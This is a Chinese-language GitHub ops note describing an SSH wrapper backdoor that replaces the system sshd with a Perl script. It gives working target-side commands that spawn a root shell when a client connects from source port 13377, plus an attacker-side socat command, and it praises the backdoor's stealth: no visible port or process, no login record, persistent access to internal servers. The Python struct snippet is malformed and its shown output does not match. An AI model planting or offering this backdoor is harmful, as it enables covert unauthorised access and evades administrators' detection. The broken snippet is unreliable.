

# SSH后门-SSH Wrapper

> GitHub 仓库源文件：[点击打开网页渲染版](https://github.com/ben2023niao/ben-ops-notes/blob/main/doc/md/202304141557-%E5%AE%89%E5%85%A8%E4%B8%8E%E5%A0%A1%E5%9E%92%E6%9C%BA%2B%E5%AE%89%E5%85%A8%E8%BF%90%E7%BB%B4%2BLinux%2B%E6%81%B6%E6%84%8F%E4%BB%A3%E7%A0%81-SSH%E5%90%8E%E9%97%A8-SSH%20Wrapper.md)

**原理：**

init 首先启动的是 /usr/sbin/sshd ,脚本执行到 getpeername 这里的时候，正则匹配会失败，于是执行下一句，启动 /usr/bin/sshd ，这是原始 sshd 。原始的 sshd 监听端口建立了 tcp 连接后，会 fork 一个子进程处理具体工作。这个子进程，没有什么检验，而是直接执行系统默认的位置的 /usr/sbin/sshd ，这样子控制权又回到脚本了。此时子进程标准输入输出已被重定向到套接字， getpeername 能真的获取到客户端的 TCP 源端口，如果是指定端口， 就执行sh给个shell。

**利用：**

目标机：

```
cd /usr/sbin/
mv sshd ../bin/
echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if(getpeername(STDIN) =~ /^..4A/);' >>sshd //4A是13377的小端模式
echo 'exec{"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd
/etc/init.d/sshd restart
```

攻击机：

```python
socat STDIO TCP4:target_ip:22,sourceport=13377
#如果你想修改源端口，可以用python的struct标准库实现。其中x00x00LF是19526的大端形式，便于传输和处理。
>>> import struct
>>> buffer = struct.pack('>I6',19526)
>>> print repr(buffer)
'\x00\x00LF'
>>> buffer = struct.pack('>I6',13377)
>>> print buffer
4A
```

## 

**优点：**

1、在无连接后门的情况下，管理员是看不到端口和进程的，last也查不到登陆。

2、在针对边界设备出网，内网linux服务器未出网的情况下，留这个后门可以随时管理内网linux服务器，还不会留下文件和恶意网络连接记录。
